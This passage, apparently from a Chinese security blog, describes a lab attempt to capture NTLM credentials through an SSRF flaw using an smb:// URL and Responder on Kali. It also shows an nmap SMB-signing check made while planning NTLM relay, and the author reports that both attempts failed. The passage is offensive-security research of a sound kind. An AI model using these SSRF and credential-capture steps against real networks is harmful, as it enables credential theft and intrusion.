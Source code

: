 然后选择虚拟硬盘的时候使用现有的，即官方下载的虚拟机文件 \*.vdi，即可直接导入 KaLi 虚拟机。

[![](assets/1701606471-195aa537a8305781d25fc6f6b60c1671.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143234-c003f54e-8cee-1.png)

修改网络为 Bridged(桥接），保证另一台 Windows 和 KaLi 在一个局域网里面。kaLI 已经内置 responder

```bash
sudo responder -I eth0 -dwv
```

不过很可惜，通过 SSRF 访问`http://192.168.0.117/ssrf.php?url=smb://192.168.0.123/share/1.txt` ，甚至根据官方给出的`curl`

[![](assets/1701606471-66756a41ded8710ff4885d45d3923ff5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143257-cd709d86-8cee-1.png)

Responder 一点反应都没有，`curl_error($ch)`也没有任何信息，一切看起来都静悄悄地，甚至我一度怀疑`smb`协议是一个摆设？

**2）NTLM 中继 失败！**

NTLM 中继成功的前提是 SMB 签名必须是未开启状态或者是禁用状态。

```bash
nmap --script=smb2-security-mode.nse -p445  192.168.0.114
```

SMB 签名除了域控其他系统默认都是不开启的，所以一开始我的想法很大胆，当然后面通过实验，验证很多想法是不成立的，一开始本是想着如果 1）成立可获得高权限凭证，那么直接 smb 中继自己/其他人，甚至可以超越 SSRF 实现命令执行，但是现连 NTLM 劫持都做不了，又谈何中继呢？失败！
